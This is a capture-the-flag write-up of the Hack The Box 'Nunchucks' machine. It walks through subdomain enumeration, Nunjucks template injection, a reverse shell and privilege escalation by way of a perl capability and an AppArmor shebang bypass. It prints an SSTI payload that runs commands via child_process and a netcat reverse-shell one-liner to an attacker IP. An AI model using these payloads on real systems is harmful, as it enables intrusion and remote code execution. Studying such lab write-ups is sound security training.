

# Nunchucks - Writeup

**Date**: 04/07/2022

**Difficulty**: Easy

**CTF**: [https://app.hackthebox.com/machines/Nunchucks](https://app.hackthebox.com/machines/Nunchucks)

---

Let’s test the connection with the target machine:

We have received back the ping, so we have connection. Let’s scan the TCP ports of the target machine using nmap:

3 open ports: 22 (ssh), 80 (http), 443 (https). Let’s scan them further:

Apparently the website hosted in the port 80, redirects us to [https://nunchucks.htb/](https://nunchucks.htb/). Also, the ssl certificate and the DNS of the https service also reveals the domain name, so it seems like is applying virtual hosting. Let’s add this domain to the /etc/hosts file:

Let’s inspect the website using whatweb:

At least now it resolves. Let’s see how it looks using the web browser:

Seems like a normal page… Let’s click on the upper left Nunchucks image:

It opens a index.html page that says that the page doesnt exist. Weird.

We also have a signup form

and a login form

Also, the website is setting a cookie called `_csrf` nice name, this kind of cookies are usually used to prevent CSRF attacks.

Let’s start testing the login form agains sqli:

Uh… user logins are disabled. Let’s try then to sign up:

Ooookay… so no login and no signup.

Anyway the form is sending the information. Maybe if we have a valid cookie the system will allow us to log in?

Let’s take a look to the website again:

There is a support email in the footer of the website. Let’s note it, maybe it will be useful…

Let’s enumerate the directories of the website:

Maybe we can look for subdomains:

wfuzz discovered the `store` subdomain, let’s add it to the /etc/hosts file

And now let’s visit the subdomain:

There is nothing else here but a form… Let’s use it:

Mmmm… it includes the mail that I entered in the webpage. Maybe this page is vulnerable to SSTI? Let’s check it:

Yep, it is. 

NUNJUCKS sound pretty similar to Nunchucks, let’s start with this:

`{{range.constructor("return global.process.mainModule.require('child_process').execSync('COMMAND_WE_WANT_TO_EXECUTE')")()}}`

but adding backslashes to escape double quotes and using burpsuite to bypass the email format check:

Let’s try to see the passwd file:

Let’s look inside the home folder of david, we may find ssh credentials or something useful:

Ok, there is no .ssh folder, but we can see the user.txt flag:

Ok, we managed to get the user flag, but we have to access to the target machine. Let’s find a way to establish a reverse shell… 

ok, the target machine has netcat installed, let’s try a simple `nc -e /bin/sh 10.10.10.10 1234`

Bad Gateway… something doesn’t work… what if we encode the command in base64 and send it this way?

It worked, nice. Let’s stabilize the tty:

Ok, now let’s find a way to escalate privileges. Let’s start looking for SUID files:

Nothing useful. Let’s see if there is any binary with capabilities:

Uh, perl has a `setsuid` capability… And it appears in GTFO Bins as something we can take advance of to escalate to root:

I tried it. I tried a lot of things but nothing happened:

Apparently I had to discover this:

What is inside /opt/backup.pl?

Is a perl script. Let’s execute it:

Nothing useful there. Let’s investigate a little bit more about AppArmor:

Looking for bugs and vulns I found this one: 

[Bug #1911431 "Unable to prevent execution of shebang lines" : Bugs : AppArmor](https://bugs.launchpad.net/apparmor/+bug/1911431)

it says that if we create a script with the shebang of the restricted application, it will ignore the restrictions. Let’s try it!

And now, let’s execute it:

And that’s how we became root. Pretty interesting.